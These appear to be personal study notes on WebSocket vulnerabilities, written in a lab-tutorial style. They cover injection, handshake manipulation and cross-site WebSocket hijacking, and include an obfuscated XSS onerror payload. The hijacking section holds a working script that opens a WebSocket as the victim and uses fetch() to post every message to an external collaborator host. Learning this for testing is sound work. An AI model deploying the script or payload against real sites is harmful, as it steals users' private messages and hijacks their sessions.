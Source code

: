* User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection [[SQLi]] #xml 
* Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
* If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

##### Manipulating handshake
* Misplaced trust in HTTP headers to perform security decisions, such as the `X-Forwarded-For` header [[Exploit headers vulns]]
* Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message
* Attack surface introduced by custom HTTP headers used by the application

##### [[XSS]] obfuscating
#encoding 
```js
<img src='x' OnErEoR='alert`1`' />"
```

##### Cross-site WebSocket hijacking (CSWSH)
Essentially it is [[CSRF]] on a WebSocket handshake.

* Perform unauthorized actions masquerading as the victim user.
* Retrieve sensitive data that the user can access.
* Just wait for incoming messages to arrive containing sensitive data.
	
Example of vulnerable request without CSRF token, only session is required.
```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies.
Host on attackers machine:
```html
<script>
    var ws = new WebSocket('wss://0a40006403bd192e806903bf000e009d.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://cvb0pjkci2e0ioc7j5pi4d1ygpmga7yw.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
